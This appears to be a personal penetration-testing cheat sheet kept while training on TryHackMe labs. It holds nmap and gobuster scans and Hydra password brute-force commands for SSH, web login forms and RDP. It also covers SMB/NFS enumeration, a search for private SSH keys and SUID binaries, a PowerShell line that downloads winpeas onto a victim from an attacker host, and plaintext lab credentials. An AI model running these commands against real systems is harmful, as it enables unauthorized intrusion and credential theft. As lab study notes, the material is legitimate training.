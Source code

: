 Nmap scan
nmap -sV -sC -o nmap 10.10.85.80

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


nmap vulscan
└─$ └─$ sudo nmap -sV --script vuln 10.10.100.195




Gobuster 
gobuster dir -e -u 10.10.243.102 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u 10.10.81.56 -w directory-list-2.3-medium.txt

wildcard related error
gobuster dir -e -u http://10.10.20.239/api/site-log.php -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt -s "204,301,302,307,401,403"


Hydra Brute force
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
##SSH
kali@kali:~/oscptraining/tryhackme/brooklyn99$ hydra 10.10.216.12 ssh -l jake -P /usr/share/wordlists/rockyou.txt
##HTTP-POST
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

Brute force against a protocol of your choice
hydra -P <wordlist> -v <ip> <protocol>

Attack a Windows Remote Desktop with a password list.
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

Number of parallel connections per target  -t 16
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.30.60 ssh




### SMB Enum (port 445, 139)
''' 
        nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.117.251
        smbclient ///10.10.117.251/Users

        smbclient //10.10.223.79/anonymous -u anonymous 

        for no password login 
        smbclient -L \\\\10.10.178.186\\ -N 

        for copying file from local to victim
        put xxx.txt

        for downloading from victim to local
         xxx.txt

'''


### RPC Enum (port 111)
'''
sudo showmount -e 10.10.178 186 
Export list for 10.10.178.186:
/opt/conf *

Now we need to mount /opt/conf in our local directory, and for that we need to create a mount point (directory) with the name mount0.



'''

Our vulnerable machine in this example has a directory called backups containing an SSH key that we can use for authentication. This was found via: find / -name id_rsa 2> /dev/null....Let's break this down:

We're using find to search the volume, by specifying the root (/) to search for files named "id_rsa" which is the name for private SSH keys, and then using 2> /dev/null to only show matches to us.


search the machine for executables with the SUID permission set: find / -perm -u=s -type f 2>/dev/


for remote desktop
xfreerdp /u:littlehelper /p:iLove5now! /v:10.10.247.111

PowerShell Invoke-WebRequest


get winpeas in

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/oscptraining/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'

     


kali@kali:~/oscptraining$ xfreerdp /u:administrator /p:4q6XvFES7Fdxs /v:10.10.4.115





